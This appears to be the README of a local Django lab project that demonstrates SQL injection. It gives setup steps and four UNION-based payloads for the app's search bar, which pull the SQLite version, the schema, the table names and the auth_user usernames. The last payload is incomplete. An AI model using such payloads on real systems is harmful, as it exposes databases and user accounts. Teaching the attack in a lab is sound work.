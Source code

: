 How to perform a SQL Injection Attack

Steps

- Install any python IDE(e.g: Pycharm)
- Install Python
- Install SQLiteStudio
- pip install Django
- python manage.py makemigrations
- python manage.py migrate
- python manage.py runsever
- http://127.0.0.1:8000/items/search

Types of Sql injection attack attempted

1) Attack to get SQLite version(Run the below sql in the search bar)
Book' UNION SELECT sqlite_version();--

2) Attack to get column name extraction(Run the below sql in the search bar)
Book' union SELECT sql FROM sqlite_master 
WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%';--

3) Attack to get table name(Run the below sql in the search bar)
Book' UNION SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%';--

4) Attack to get usernames(Run the below sql in the search bar)
abc' UNION SELECT username FROM auth_user WHERE username LIKE'